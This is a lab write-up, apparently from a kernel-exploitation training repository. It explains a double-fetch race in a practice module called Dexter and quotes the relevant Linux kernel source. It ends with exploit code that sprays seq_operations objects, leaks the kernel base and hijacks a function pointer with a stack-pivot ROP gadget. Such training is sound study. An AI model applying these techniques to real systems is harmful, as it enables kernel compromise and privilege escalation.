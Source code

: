 # Double Fetch

Practice from [1].

[1] https://pawnyable.cafe/linux-kernel/LK03/double_fetch.html

## QEMU configuration

Note that this is a race-related bug, and requires running in multiple cores.
All security mitigations may be enabled.

## Double Fetch Vulnerability

From [1]:

Type of data race that occurs in kernel space. It refers to contention caused
by fetching (reading) the same data twice on the kernel side. When kernel space
reads the same data twice from user space, another thread may rewrite the data
in between. This causes the data content to differ between reads, resulting in
a loss of consistency.

The big difference with the race condition vulnerability (seen in
[LK01-4](https://github.com/cpey/pawnyable/blob/main/LK01-4)) is that this bug
cannot be dealt with by taking a mutex on the kernel side.


> Mitigation:
> When dealing with user space data multiple times, you have to copy the data on
> the first use to kernel space, which you will reuse in the subsequent accesses.

The double fetch vulnerability exists in 
[Dexter module](https://github.com/cpey/pawnyable/blob/main/LK03-1/src/Dexter_module/dexter.c),
since the `verify_request()` called at the beginning of the ioctl, copies from
the user memory the length of the request which is checked, and later, within
both ioctl commands this length is read from the user memory again.


~~~c
File: dexter.c

static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  if (verify_request((void*)arg))
    return -EINVAL;

  switch (cmd) {
    case CMD_GET: return copy_data_to_user(filp, (void*)arg);
    case CMD_SET: return copy_data_from_user(filp, (void*)arg);
    default: return -EINVAL;
  }
}
~~~

~~~c
File: dexter.c

int verify_request(void *reqp) {
  request_t req;
  if (copy_from_user(&req, reqp, sizeof(request_t)))
    return -1;
  if (!req.ptr || req.len > BUFFER_SIZE)
    return -1;
  return 0;
}

long copy_data_to_user(struct file *filp, void *reqp) {
  request_t req;
  if (copy_from_user(&req, reqp, sizeof(request_t)))
    return -EINVAL;
  if (copy_to_user(req.ptr, filp->private_data, req.len))
    return -EINVAL;
  return 0;
}

long copy_data_from_user(struct file *filp, void *reqp) {
  request_t req;
  if (copy_from_user(&req, reqp, sizeof(request_t)))
    return -EINVAL;
  if (copy_from_user(filp->private_data, req.ptr, req.len))
    return -EINVAL;
  return 0;
}
~~~

- Find the implementaiton of a double fetch test in [src/02.dexter-test/dexter-test.c](https://github.com/cpey/pawnyable/blob/main/LK03-1/src/02.dexter-test/dexter-test.c),

## struct seq_operations

Since the area that can be destroyed this time is of size 0x20, it belongs to
kmalloc-32. Therefore, it is necessary to find a victim object that is
allocated in the same slab size. `seq_operations` structure is such an option.

`seq_operations` is a structure that describes the handlers called by the
kernel when reading special files like sysfs, debugfs, and procfs, from user
space.  Therefore, it can be created by opening a special file such as
/proc/self/stat. Since it is has in it a bunch of function pointers, it can be
used to leak the address of the kernel.

~~~c
File: /include/linux/seq_file.h

struct seq_operations {
    void * (*start) (struct seq_file *m, loff_t *pos);
    void (*stop) (struct seq_file *m, void *v);
    void * (*next) (struct seq_file *m, void *v, loff_t *pos);
    int (*show) (struct seq_file *m, void *v);
};
~~~

Note that in addition to the `seq_operations` structure, the structure
`file_operations` -- defined in include/linux/fs.h --, is created on every
opened file as well, although the `file_operations` is a much larger structure,
of size 256 bytes, and therefore not polluting our slab.

## /proc/self/stat

The `stat` file is defined in /fs/proc/base.c, 

~~~c
File: /fs/proc/base.c, 

static const struct pid_entry tid_base_stuff[] = {
...
  ONE("stat",      S_IRUGO, proc_tid_stat),
...
}
~~~

where the macro ONE is defined as 

~~~c
File: /fs/proc/base.c, 

#define NOD(NAME, MODE, IOP, FOP, OP) {            \
   .name = (NAME),                 \
   .len  = sizeof(NAME) - 1,           \
   .mode = MODE,                   \
   .iop  = IOP,                    \
   .fop  = FOP,                    \
   .op   = OP,                 \
}

#define ONE(NAME, MODE, show)              \
   NOD(NAME, (S_IFREG|(MODE)),         \
       NULL, &proc_single_file_operations, \
       { .proc_show = show } )
~~~

and `pid_entry`:

~~~c
File: /fs/proc/base.c

struct pid_entry {
   const char *name;
   unsigned int len;
   umode_t mode;
   const struct inode_operations *iop;
   const struct file_operations *fop;
   union proc_op op;
};
~~~

Therefore, `stat`'s file_operations structure is `proc_single_file_operations`, defined as:

~~~c
File: /fs/proc/base.c

static const struct file_operations proc_single_file_operations = {
   .open       = proc_single_open,
   .read       = seq_read,
   .llseek     = seq_lseek,
   .release    = single_release,
};
~~~

When the file is opened, `proc_single_open` is called:

~~~c
File: /fs/proc/base.c

static int proc_single_open(struct inode *inode, struct file *filp)
{
   return single_open(filp, proc_single_show, inode);
}
~~~

`single_open` is defined in /fs/seq_file.c, which allocates and initializes the
`seq_operations` structure:

~~~c
File: /fs/seq_file.c

int single_open(struct file *file, int (*show)(struct seq_file *, void *),
       void *data)
{
   struct seq_operations *op = kmalloc(sizeof(*op), GFP_KERNEL_ACCOUNT);
   int res = -ENOMEM;

   if (op) {
       op->start = single_start;
       op->next = single_next;
       op->stop = single_stop;
       op->show = show;
       res = seq_open(file, op);
       if (!res)
           ((struct seq_file *)file->private_data)->private = data;
       else
           kfree(op);
   }
   return res;
}
~~~

## Exploitation

The goal is to have a victim object `seq_operations` placed right after the
vulnerable buffer, and by using the out-of-bounds read, read its first pointer
`void * (*start) (struct seq_file *m, loff_t *pos)` and use its value to leak
the kernel base address. Then, replace the same pointer with the rop gadget
pivoting the stack, and finally execute the gadget by calling `read()`:

~~~c
  // Spray `seq_operations` around the Dexter buffer
  int spray[0x100];
  for (int i = 0; i < 0x80; i++)
    spray[i] = open("/proc/self/stat", O_RDONLY);
  fd = open("/dev/dexter", O_RDWR);
  if (fd == -1) fatal("/dev/dexter");
  for (int i = 0x80; i < 0x100; i++)
    spray[i] = open("/proc/self/stat", O_RDONLY);
  char buf[0x40];
  overread(buf, 0x40);
  kbase = *(unsigned long*)&buf[0x20] - ofs_seq_start;
  printf("[+] kbase = 0x%016lx\n", kbase);
...
  // RIP control
  *(unsigned long*)&buf[0x20] = rop_mov_esp_39000000h;
  overwrite(buf, 0x28);

  // Trigger the exploit
  for (int i = 0; i < 0x100; i++) {
    read(spray[i], buf, 1);
  }
~~~

Full implementation in: [src/04.dexter-krop/dexter-krop.c](https://github.com/cpey/pawnyable/blob/main/LK03-1/src/04.dexter-krop/dexter-krop.c)
